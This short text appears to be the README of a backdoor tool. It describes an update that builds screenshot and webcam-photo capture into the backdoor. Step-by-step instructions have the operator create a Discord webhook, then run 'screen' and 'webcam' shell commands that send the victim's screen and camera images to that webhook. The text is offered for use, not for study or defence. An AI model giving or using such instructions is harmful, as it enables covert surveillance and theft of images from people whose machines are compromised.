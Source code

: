 THIS BACKDOOR IS UPDATED ON 25-07-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied
For Webcam:
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied
